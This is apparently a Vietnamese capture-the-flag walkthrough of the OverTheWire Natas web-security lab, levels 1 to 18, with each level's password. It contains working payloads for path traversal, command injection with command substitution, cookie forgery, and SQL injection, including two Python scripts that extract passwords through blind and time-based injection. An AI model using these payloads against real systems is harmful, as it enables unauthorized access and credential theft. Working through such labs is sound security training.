



# **Chall1:** 

**Pass: 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq**

# **Chall2:**

**Pass: TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI**

# **Chall3:** 

**Pass: 3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH**
```
/files/users.txt
```

# **Chall4:** 

**Pass: QryZXc2e0zahULdHrtHxzyYkj59kUxLQ**
```
/robots.txt -> /s3cr3t/users.txt
```

# **Chall5:** 

**Pass: 0n35PkggAPm2zbEpOU802c0x0Msn1ToK**

Truy cập bị từ chối. Bạn đang truy cập từ "http://natas4.natas.labs.overthewire.org/" trong khi người dùng được ủy quyền chỉ được phép truy cập từ "http://natas5.natas.labs.overthewire.org/"

&rarr; Website chỉ cho phép truy cập nếu header Referer là: `Referer: http://natas5.natas.labs.overthewire.org/`nhưng Trình duyệt đang gửi: Referer: `http://natas4.natas.labs.overthewire.org/index.php` -> Dùng burp thay Referer

# **Chall6:** 

**Pass: 0RoJwHdSKWFTYR5WuiAewauSuNaBXned**
```
Cookies : loggedin : 0 -> 1
```

# **Chall7:** 

**Pass: bmg8SvU1LizuWjx3y7xkNERkHxGre0GS**
```php
<?
    include "includes/secret.inc";
    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
            print "Access granted. The password for natas7 is <censored>";
        } else {
            print "Wrong secret";
        }
    }
?>
```
1. `include "includes/secret.inc";` 
   - Import file secret.inc
   - File này chứa biến $secret
2. `if (array_key_exists("submit", $_POST)) {`
   - Kiểm tra:
        - Request có tham số POST tên submit hay không
            - Nếu chưa submit form → không làm gì
            - Nếu có submit → bắt đầu kiểm tra secret
3. `if ($secret == $_POST['secret']) {`
   - So sánh:
        - `$secret` (từ file include)
        - `$_POST['secret']` (user nhập)


&rarr; Vào `/includes/secret.inc` xem file `secret.inc` -> Nhập `secret` vào ô input -> flag

# **Chall8:** 

**Pass: xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q**
`<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->`

Ta thử payload sau : `http://natas7.natas.labs.overthewire.org/index.php?page=ntthanhh`

```
Respone:
Warning: include(ntthanhh): failed to open stream: No such file or directory in /var/www/natas/natas7/index.php on line 21
Warning: include(): Failed opening 'ntthanhh' for inclusion (include_path='.:/usr/share/php') in /var/www/natas/natas7/index.php on line 21
```

Ta thấy : `/var/www/natas/natas7/index.php` + hint &rarr; pass trong : `/var/www/natas/etc/natas_webpass/natas8`

Payload :
``` 
http://natas7.natas.labs.overthewire.org/index.php?page=/../../../etc/natas_webpass/natas8
```

# **Chall9:** 

**Pass: ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t** 
```php
<?
    $encodedSecret = "3d3d516343746d4d6d6c315669563362";
    function encodeSecret($secret) {
        return bin2hex(strrev(base64_encode($secret)));
    }
    if(array_key_exists("submit", $_POST)) {
        if(encodeSecret($_POST['secret']) == $encodedSecret) {
            print "Access granted. The password for natas9 is <censored>";
        } else {
            print "Wrong secret";
        }
    }
?>
```

DecodeSecret:
```php
<?
    $encodedSecret = "3d3d516343746d4d6d6c315669563362";
    $secret = base64_decode(strrev(hex2bin($encodedSecret)));
?>
```

# **Chall10:** 

**Pass: t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu**
```php
<?
    $key = "";
    if(array_key_exists("needle", $_REQUEST)) {
        $key = $_REQUEST["needle"];
    }
    if($key != "") {
        passthru("grep -i $key dictionary.txt");
    }
?>
```

`passthru("grep -i $key dictionary.txt");`
1. `passthru():`
    - Thực thi command shell
    - In kết quả trực tiếp ra trình duyệt
2. Lệnh được chạy:
    - `grep -i <key> dictionary.txt`
        - `-i` = không phân biệt hoa thường

&rarr;Command Injection

Payload:
`test; whoami #` &rarr;  `grep -i test; whoami # dictionary.txt` &rarr; `natas9`

`test; pwd #` &rarr;  `grep -i test; pwd # dictionary.txt` &rarr; `/var/www/natas/natas9`

`test; ls -la #` &rarr;  `grep -i test; ls -la # dictionary.txt` &rarr;
```
total 476
drwxr-x---  2 natas9 natas9   4096 Oct 14 09:06 .
drwxr-xr-x 38 root   root     4096 Oct 14 09:06 ..
-rw-r-----  1 natas9 natas9    117 Oct 14 09:06 .htaccess
-rw-r-----  1 natas9 natas9     45 Oct 14 09:06 .htpasswd
-rw-r-----  1 natas9 natas9 460878 Oct 14 09:06 dictionary.txt
-rw-r--r--  1 root   root     2924 Oct 14 09:06 index-source.html
-rw-r-----  1 natas9 natas9   1185 Oct 14 09:06 index.php
```
```
test; cat /etc/natas_webpass/natas10 # -> grep -i test; cat /etc/natas_webpass/natas10 # dictionary.txt -> pass
```

# **Chall11:** 

**Pass: UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk**
```php
<?
    $key = "";
    if(array_key_exists("needle", $_REQUEST)) {
        $key = $_REQUEST["needle"];
    }
    if($key != "") {
        if(preg_match('/[;|&]/',$key)) {
            print "Input contains an illegal character!";
        } else {
            passthru("grep -i $key dictionary.txt");
        }
    }
?>
```

Ta thấy : `preg_match('/[;|&]/',$key)` chặn 3 ký tự `; | &` 

Do đó chúng ta có thể tận dụng câu lệnh grep như sau : `grep 'word' file1 file2 file3`

Payload : 
```php
'a' /etc/passwd` -> grep -i 'a' /etc/passwd dictionary.txt
```

 &rarr; grep nó sẽ hoạt động như sau : 

1.  `grep -i 'a' /etc/passwd` 
2.  `grep -i 'a' dictionary.txt`


&rarr;
```php 
'' /etc/natas_webpass/natas11` -> grep -i '' /etc/natas_webpass/natas11 dictionary.txt -> pass
```

# **Chall12:** 

**Pass: yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB** 

```php
<?
    $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

    function xor_encrypt($in) {
        $key = '<censored>';
        $text = $in;
        $outText = '';

        for($i=0;$i<strlen($text);$i++) {
            $outText .= $text[$i] ^ $key[$i % strlen($key)];
        }

        return $outText;
    }

    function loadData($def) {
        global $_COOKIE;
        $mydata = $def;
        if(array_key_exists("data", $_COOKIE)) {
            $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
            if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) &&    array_key_exists("bgcolor", $tempdata)) {
                if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
                    $mydata['showpassword'] = $tempdata['showpassword'];
                    $mydata['bgcolor'] = $tempdata['bgcolor'];
                }
            }
        }
        return $mydata;
    }

    function saveData($d) {
        setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
    }

    $data = loadData($defaultdata);

    if(array_key_exists("bgcolor",$_REQUEST)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
            $data['bgcolor'] = $_REQUEST['bgcolor'];
        }
    }

    saveData($data);
?>

    <h1>natas11</h1>
    <div id="content">
    <body style="background: <?=$data['bgcolor']?>;">
    Cookies are protected with XOR encryption<br/><br/>

<?
    if($data["showpassword"] == "yes") {
        print "The password for natas12 is <censored><br>";
    }
?>
```

B1: Ta sẽ  XOR `Cookies` với `$defaultdata` để ra `KEY`
```php
<?php
    $plaintext = json_encode(array(
        "showpassword" => "no",
        "bgcolor" => "#ffffff"
    ));

    $cipher = base64_decode("HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg=");

    $key = '';
    for ($i = 0; $i < strlen($cipher); $i++) {
        $key .= $cipher[$i] ^ $plaintext[$i];
    }

    echo $key;
?>
```

B2: Tiếp theo ta sẽ sửa `showpassword` trong `$defaultdata` thành `yes` rồi XOR với `KEY` để ra `cookie` mới 

```php
<?php
    $defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

    function xor_encrypt($in) {
        $key = 'eDWo';
        $text = $in;
        $outText = '';

        for($i=0;$i<strlen($text);$i++) {
            $outText .= $text[$i] ^ $key[$i % strlen($key)];
        }

        return $outText;
    }

    $cookie = base64_encode(xor_encrypt(json_encode($defaultdata)));
    echo $cookie;
?>
```

B3: Cập nhật `cookie` thành `cookie` mới tìm được &rarr; pass

# **Chall13:** 

**Pass: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC** 
```php
<?php
    function genRandomString() {
        $length = 10;
        $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
        $string = "";

        for ($p = 0; $p < $length; $p++) {
            $string .= $characters[mt_rand(0, strlen($characters)-1)];
        }

        return $string;
    }

    function makeRandomPath($dir, $ext) {
        do {
            $path = $dir."/".genRandomString().".".$ext;
        } while(file_exists($path));
        return $path;
    }

    function makeRandomPathFromFilename($dir, $fn) {
        $ext = pathinfo($fn, PATHINFO_EXTENSION);
        return makeRandomPath($dir, $ext);
    }

    if(array_key_exists("filename", $_POST)) {
        $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
 
        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
            echo "File is too big";
        } else {
            if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
                echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
            } else{
                echo "There was an error uploading the file, please try again!";
            }
        }
    } else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php 
    } 
?>
```

Chall này liên quan đến Upload file cơ bản chúng ta sử dụng burp như sau :


Vào đường dẫn chứa file vừa upload &rarr; pass

# **Chall14:** 

**Pass: z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ**
```php
<?php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
        $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
```

# **Chall15:** 
**Pass: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx**
```php
<?php
    if(array_key_exists("username", $_REQUEST)) {
        $link = mysqli_connect('localhost', 'natas14', '<censored>');
        mysqli_select_db($link, 'natas14');

        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
        if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
        }

        if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
                echo "Successful login! The password for natas15 is <censored><br>";
        } else {
                echo "Access denied!<br>";
        }
        mysqli_close($link);
    } else {
?>
    <form action="index.php" method="POST">
    Username: <input name="username"><br>
    Password: <input name="password"><br>
    <input type="submit" value="Login" />
    </form>
<?php } ?>
```
Ta thấy query :
```
$query = "SELECT * from users 
          where username=\"".$_REQUEST["username"]."\" 
          and password=\"".$_REQUEST["password"]."\"";
```
&rarr; Câu query nguy hiểm ghép chuỗi trực tiếp
&rarr; Payload : 
`Username: " OR 1=1-- -` 
`Password : ntthanhh`

# **Chall16:** 

**Pass: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo**
```php
<?php
    /*
    CREATE TABLE `users` (
    `username` varchar(64) DEFAULT NULL,
    `password` varchar(64) DEFAULT NULL
    );
    */

    if(array_key_exists("username", $_REQUEST)) {
        $link = mysqli_connect('localhost', 'natas15', '<censored>');
        mysqli_select_db($link, 'natas15');

        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
        if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
        }

        $res = mysqli_query($link, $query);
        if($res) {
            if(mysqli_num_rows($res) > 0) {
                echo "This user exists.<br>";
            } else {
                echo "This user doesn't exist.<br>";
            }
        } else {
            echo "Error in query.<br>";
        }

        mysqli_close($link);
    } else {
?>

    <form action="index.php" method="POST">
    Username: <input name="username"><br>
    <input type="submit" value="Check existence" />
    </form>
    <?php } ?>
```

Dựa vào đoạn code trên chúng ta có thể thấy không thể thấy các câu lệnh chỉ mang tính xác thực không có in ra trực tiếp password &rarr; Chúng ta nghĩ đến Blind Sqli.

Dựa vào phần chú thích chúng ta có một bảng users có 2 cột là username và 
password và có câu query 
```php
SELECT * from users where username=?
```

Đầu tiên ta thử payload sau để xác định độ dài của password 
```php
natas16" AND LENGTH(password) > 0 -- -
```

&rarr; Query :
```php 
SELECT * from users where username="natas16" AND LENGTH(password) > 0 -- -
```

Nếu Response là `This user exists.` &rarr; Đúng

`This user doesn't exist.` &rarr; Sai

&rarr; Dùng burp ta xác định được độ dài password là 32

Tiếp theo chúng ta dùng payload sau để lấy password : 
```php
natas16" AND BINARY substring(password, 1, 1) = "a" -- -
```

&rarr; Query :
``` 
SELECT * from users where username="natas16" AND BINARY substring(password, 1, 1) = "a" -- -
```

Dùng burp Intruder với chế độ Cluster bomb attack : 

```php
username=natas16" AND BINARY substring(password, $1$, 1) = "$a$" -- -
```

1-1 : 1-32

2-a : a-z A-Z 0-9

Lọc các Response là `This user exists.` &rarr; password

**Note:** 
Lý do phải có `BINARY` là vì MySQL mặc định không phân biệt chữ hoa và chữ thường (Case Insensitive) khi so sánh chuỗi.Do đó, nếu mật khẩu thực sự là chữ `A (hoa)`, nhưng gửi payload là `a(thường)`, cơ sở dữ liệu vẫn cho là đúng.

`Binary` ép MySQL so sánh chuỗi dựa trên giá trị nhị phân (byte) của ký tự thay vì bảng chữ cái.
- Byte của `'A'` là `01000001`
- Byte của `'a'` là `01100001`


# **Chall17:** 

**Pass: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC**
```php
<?
    $key = "";

    if(array_key_exists("needle", $_REQUEST)) {
        $key = $_REQUEST["needle"];
    }

    if($key != "") {
        if(preg_match('/[;|&`\'"]/',$key)) {
            print "Input contains an illegal character!";
        } else {
            passthru("grep -i \"$key\" dictionary.txt");
        }
    }
?>
```

Chall này chặn các ký tự sau : 

<pre>; | & ` \ ' "</pre>

Trong môi trường Shell (Linux), khi một chuỗi nằm trong dấu nháy kép `""` (như trong đoạn code `passthru("grep -i \"$key\" ...")`), hệ thống vẫn cho phép thực hiện Command Substitution (Thay thế lệnh) thông qua cú pháp `$(...)`.

Vì `$` và `()` không bị chặn, bạn có thể chèn lệnh hệ thống vào biến `$key`.

Kỹ thuật: Command Substitution `$(command)`

- Khi nhập input dưới dạng `$(command)`, hệ thống sẽ thực thi `command` trước, lấy kết quả của nó và dán vào vị trí đó, sau đó mới chạy lệnh `grep`.
- Ví dụ: `grep -i "$(ls)" dictionary.txt`

    1. Hệ thống chạy lệnh `ls` (liệt kê danh sách file).

    2. Kết quả của `ls` (ví dụ: index.php dictionary.txt) sẽ được điền vào chỗ của `$(ls)`.

    3. Lệnh cuối cùng trở thành: `grep -i "index.php dictionary.txt" dictionary.txt`.

    4. Lệnh này có thể báo lỗi hoặc không tìm thấy gì, nhưng quan trọng là lệnh `ls` đã được thực thi.


Bài này là dạng Blind Command Injection, chúng ta cùng xem xét payload sau : 
```php
grep -i anythings$(grep -E ^.* /etc/natas_webpass/natas16) dictionary.txt
```

1. `-E ^.*` : để tìm chuỗi khớp với biểu thức regex
2. Đầu tiên lệnh `grep -E ^.* /etc/natas_webpass/natas16` sẽ được thực thi trước và in ra pass của natas16 vì chuỗi regex kia khớp với bất kỳ chuỗi nào và kết quả là : `hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`
3. Tiếp theo chuỗi của câu lệnh `grep` trước sẽ được nối vào `anythings` như sau `anythingshPkjKYviLQctEW33QmuXL6eDVfMW4sGo`
4. Câu lệnh grep ngoài cùng sẽ được thực thi và sẽ không in ra gì vì không có chuỗi nào khớp với chuỗi trên. 

Nhưng nếu chúng ta sửa lại payload như sau : 
```php
grep -i anythings$(grep -E ^a.* /etc/natas_webpass/natas16) dictionary.txt
```

1. Là chữ cái đầu tiên của password natas16 sẽ không khớp với ký tự `'a'` nên câu lệnh grep trong sẽ không trả về kết quả
2. Câu lệnh ngoài sẽ thực thi tìm kiếm từ khóa `anythings` và sẽ in ra `anythings`

&rarr; Chúng ta có thể thử từng kí tự của password nếu kết quả trả về có từ khóa `anythings` thì kí tự đó sai và ngược lại.

Code Exploit :
```python
import requests
import re
import string

username = 'natas16'
password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'

url = f"http://{username}.natas.labs.overthewire.org"

letters = string.ascii_letters + string.digits
nataspass = ''

while len(nataspass) < 32 :
    for char in letters :
        response = requests.post(url, auth=(username, password), data={"needle" : "anythings$(grep -E ^" + nataspass + char + ".* /etc/natas_webpass/natas17)"})
        if "anythings" not in response.text :
            nataspass += char
            print(f"Password: {nataspass}")
            break
```

Password được trả về như sau : 


# **Chall18:**

**Pass: 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ**

```php
<?php
    /*
    CREATE TABLE `users` (
    `username` varchar(64) DEFAULT NULL,
    `password` varchar(64) DEFAULT NULL
    );
    */

    if(array_key_exists("username", $_REQUEST)) {
        $link = mysqli_connect('localhost', 'natas17', '<censored>');
        mysqli_select_db($link, 'natas17');

        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
        if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
        }

        $res = mysqli_query($link, $query);
        if($res) {
            if(mysqli_num_rows($res) > 0) {
                //echo "This user exists.<br>";
            } else {
                //echo "This user doesn't exist.<br>";
            }
        } else {
            //echo "Error in query.<br>";
        }

        mysqli_close($link);
    } else {
    ?>

    <form action="index.php" method="POST">
    Username: <input name="username"><br>
    <input type="submit" value="Check existence" />
    </form>
    <?php } ?>
```

Chall này giống Chall16 nhưng nó sẽ không có bất cứ phản hồi nào để ta xác nhận lả đúng hay không nên chúng ta phải dùng TimeOut để xác định đúng sai.

Payload kiểm tra độ dài password: 
```php
natas18" AND IF(LENGTH(password)>0, SLEEP(10), 0)-- -
```

&rarr; Query : 
```php
SELECT * from users where username="natas18" AND IF(LENGTH(password)>0, SLEEP(10), 0)-- -
```

Nếu phản hồi đúng sẽ tạo ra độ trễ của phản hồi là 10s, còn sai sẽ trả về 0 và không có hiện tượng gì.

Payload kiểm tra password :
```php
natas18" AND IF(BINARY substring(password, 1, 1) = 'a', SLEEP(10), 0)-- -
```

&rarr; Query 
```php
SELECT * from users where username="natas18" AND IF(BINARY substring(password, 1, 1) = 'a', SLEEP(10), 0)-- -
```

Script Exploit như sau :
```python
import requests
import string
import time

username = 'natas17'
password = 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC'
url = f"http://{username}.natas.labs.overthewire.org/index.php"

letters = string.ascii_letters + string.digits
nataspass = ''

while len(nataspass) < 32:
    pos = len(nataspass) + 1
    for char in letters:
        payload = (
            f'natas18" AND IF(BINARY SUBSTRING(password,{pos},1)="'
            f'{char}", SLEEP(10), 0)-- -'
        )
        r = requests.post(
            url,
            auth=(username, password),
            data={"username": payload},
        )
        if r.elapsed.total_seconds() >= 10:
            nataspass += char
            print(f"Password: {nataspass}")
            break
```

Password được trả về như sau: 



